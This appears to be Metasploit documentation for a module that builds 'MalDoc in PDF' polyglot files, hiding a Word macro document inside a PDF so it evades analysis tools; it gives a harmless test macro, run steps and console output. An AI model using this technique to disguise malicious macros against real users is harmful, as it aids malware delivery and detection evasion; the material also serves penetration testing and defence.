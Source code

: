 ## Vulnerable Application

The technique is called "MalDoc in PDF". This technique hides malicious Word documents in PDF files,
which is why malicious code contained in them cannot be detected by many analysis tools.

The document can be opened in both Microsoft Word and a PDF reader.

However, for the macro to run, you must open this document in Microsoft Word. The attack does not bypass
configured macro locks. The malicious macros are also not executed when the file is opened in PDF readers
or similar software.

### Introduction

A malicious MHT file created can be opened in Microsoft Word even though it has magic numbers and file
structure of PDF.

If the file has configured macro, by opening it in Microsoft Word, VBS runs and performs malicious behaviors.

## For Testing

You create a `Single File Web Page (*.mht, *.mhtml)` file containing a VBS macro. For testing, you can use the
following macro:

```
Sub AutoOpen()
   MsgBox "Macro executed successfully!", vbInformation, "Information"
End Sub
```

## Verification Steps

1. Start msfconsole
2. Do: `auxiliary/fileformat/maldoc_in_pdf_polyglot`
3. Do: `set FILENAME /tmp/macro.htm`
4. Do: `run`

## Options

### FILENAME

The input MHT filename with macro embedded.

### INJECTED_PDF

The input PDF filename to be injected. (optional)

### MESSAGE_PDF

The message to display in the local PDF template (if INJECTED_PDF is NOT used). Default: You must open this document in Microsoft Word

## Scenarios

### Create without PDF template

```
msf6 auxiliary(fileformat/maldoc_in_pdf_polyglot) > options 

Module options (auxiliary/fileformat/maldoc_in_pdf_polyglot):

   Name          Current Setting                                Required  Description
   ----          ---------------                                --------  -----------
   FILENAME      /tmp/macro.mht                                 yes       The input MHT filename with macro embedded
   INJECTED_PDF                                                 no        The input PDF filename to be injected (optional)
   MESSAGE_PDF   You must open this document in Microsoft Word  no        The message to display in the local PDF template (if INJECTED_PDF is NOT used)

View the full module info with the info, or info -d command.

msf6 auxiliary(fileformat/maldoc_in_pdf_polyglot) > run
[*] PDF creation using local template
[+] The file 'macro.doc' is stored at '/home/mekhalleh/.msf4/local/macro.doc'
[*] Auxiliary module execution completed
```

### Create using PDF template

```
msf6 auxiliary(fileformat/maldoc_in_pdf_polyglot) > options 

Module options (auxiliary/fileformat/maldoc_in_pdf_polyglot):

   Name          Current Setting                                Required  Description
   ----          ---------------                                --------  -----------
   FILENAME      /tmp/macro.mht                                 yes       The input MHT filename with macro embedded
   INJECTED_PDF  /tmp/injected.pdf                              no        The input PDF filename to be injected (optional)
   MESSAGE_PDF   You must open this document in Microsoft Word  no        The message to display in the local PDF template (if INJECTED_PDF is NOT used)


View the full module info with the info, or info -d command.

msf6 auxiliary(fileformat/maldoc_in_pdf_polyglot) > run
[*] PDF creation using 'injected.pdf' as template
[+] The file 'macro.doc' is stored at '/home/mekhalleh/.msf4/local/macro.doc'
[*] Auxiliary module execution completed
```

## References

1. <https://blogs.jpcert.or.jp/en/2023/08/maldocinpdf.html>
2. <https://socradar.io/maldoc-in-pdf-a-novel-method-to-distribute-malicious-macros/>
3. <https://www.nospamproxy.de/en/maldoc-in-pdf-danger-from-word-files-hidden-in-pdfs/>
4. <https://github.com/exa-offsec/maldoc_in_pdf_polyglot/tree/main/demo>
